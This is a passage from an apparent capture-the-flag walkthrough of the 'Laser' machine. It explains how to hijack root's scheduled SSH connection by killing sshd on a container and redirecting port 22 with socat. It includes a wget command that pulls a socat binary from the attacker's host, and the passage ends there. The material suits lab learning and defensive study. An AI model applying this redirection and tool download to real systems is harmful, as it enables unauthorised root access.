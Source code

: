 ### Exploit

#### Strategy

Periodically, root on Laser is connecting to 172.18.0.2, copying a script into `/tmp`, running it, and then removing it. I’m going to guess that perhaps there’s a private SSH key in root’s `.ssh` directory on Laser, and that the matching public key is in the `authorized_keys` file.

I’ll SSH to the container and kill `sshd`, and start `socat` so that it’s listening on 22 and redirecting all traffic back to the host (172.18.0.1) on port 22. That password won’t be valid, but if the private key is there and works, it will connect with that first, and work. That means it will then copy `/root/clear.sh` into `/tmp` on Laser (not the container), run it on Laser, and delete it. If that works, I just need to find a way to control the contents of `/tmp/clear.sh` to get a shell.

There’s one more issue here - host key checking. Whenever you connect to a host for the first time, by default, `ssh` will prompt you to save the hostkey. Then, if you ever connect to the same IP and that host key isn’t the same, it will fail and give you a message on how to clean it if you are sure it’s still ok. That is all to say, this connection will fail, unless that setting is explicitly disabled, like it is on Laser:

```

solr@laser:/etc/ssh$ cat ssh_config | grep -vE "^#" | grep .
Include /etc/ssh/ssh_config.d/*.conf
Host *
    SendEnv LANG LC_*
    HashKnownHosts yes
    GSSAPIAuthentication yes
StrictHostKeyChecking no

```

The last line in the config sets `StrictHostKeyChecking` to `no`, which disables this check, and is a big hint that this attack could work.

#### Redirect 22

I’ll use Python HTTP Server to host [static socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) and upload it to Laser:

```

solr@laser:/tmp$ wget 10.10.14.9/socat
--2020-09-13 16:34:26--  http://10.10.14.9/socat
Connecting to 10.10.14.9:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: ‘socat’

socat                                                        100%[==================================================>] 366.38K  --.-KB/s    in 0.08s   

2020-09-13 16:34:27 (4.54 MB/s) - ‘socat’ saved [375176/375176]

```
